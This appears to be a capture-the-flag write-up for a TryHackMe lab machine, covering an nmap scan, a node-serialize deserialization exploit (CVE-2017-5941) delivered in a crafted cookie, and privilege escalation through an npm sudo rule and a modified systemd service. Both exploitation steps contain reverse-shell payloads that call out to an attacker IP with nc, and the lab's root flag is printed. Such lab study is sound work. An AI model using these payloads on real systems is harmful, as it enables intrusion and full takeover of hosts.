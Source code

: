 # [Machine]()
# ENUM
## nmap(`nmap -A -p- -T4 --min-rate 5000 vulnnetnode.thm`)
```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:66:31:eb:0a:b1:da:25:4b:ed:2f:c4:3f:65:32:5e (RSA)
|   256 d8:cf:85:4d:63:35:6b:fc:c2:e7:55:87:43:56:ef:bc (ECDSA)
|_  256 42:ea:99:ba:fa:ec:cd:46:43:28:bd:4f:23:02:45:61 (ED25519)
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# EXPLOITATION
In `/login` there's a session cookie base64 encoded: let's modify its values.
`eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==` (`{"username":"Guest","isGuest":true,"encoding": "utf-8"}')` -> `eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNHdWVzdCI6ZmFsc2UsImVuY29kaW5nIjogInV0Zi04In0=`(`{"username":"Admin","isGuest":false,"encoding": "utf-8"}`)
Nothing happened, let's check deleting part of our cookie:
```
SyntaxError: Unexpected token S in JSON at position 0  
    at JSON.parse (<anonymous>)  
    at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)  
    at /home/www/VulnNet-Node/server.js:16:24  
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)  
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)  
    at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)  
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)  
    at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22  
    at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)  
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```
The `node-serialize` is vulnerable to `CVE-2017-5941: Node.JS - 'node-serialize' Remote Code Execution`.
Let's inject this cookie: `eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygncm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTAuOC4xMy4xMTEgNDQ0NCA+L3RtcC9mJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSkiLCJpc0d1ZXN0Ijp0cnVlLCJlbmNvZGluZyI6ICJ1dGYtOCJ9` (`{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.13.111 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}`)
We got a revshell!
# PRIVILEGE ESCALATION
For `user.txt`, we need the `serv-manage` permissions. 
`sudo -l`: `(serv-manage) NOPASSWD: /usr/bin/npm`
Let's check on GTFOBins:
```bash
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo -u serv-manage /usr/bin/npm -C . --unsafe-perm i
```
We're `serv-manage`! (P.S.: the new temporary directory must be writable by everyone, like `/tmp`).
Let's spawn an interactive shell:  `python3 -c "import pty;pty.spawn('/bin/bash')"`
`sudo -l`
```bash
(root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
(root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
(root) NOPASSWD: /bin/systemctl daemon-reload
```

 ```bash
 $ locate vulnnet-auto.timer
 /etc/systemd/system/vulnnet-auto.timer
 ```

`vulnnet-auto.timer`:
```bash
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

`/etc/systemd/system/vulnnet-job.service`:
```bash
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```
Let's change the `ExecStart` line to `/tmp/shell` and let's create a script:
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.13.111 5555 >/tmp/f
```
Let's restart the services:
```bash
$ sudo -u root /bin/systemctl stop vulnnet-auto.timer
$ sudo -u root /bin/systemctl daemon-reload
$ sudo -u root /bin/systemctl start vulnnet-auto.timer
```
We're ROOT!
`root.txt`: `THM{abea728f211b105a608a720a37adabf9}`


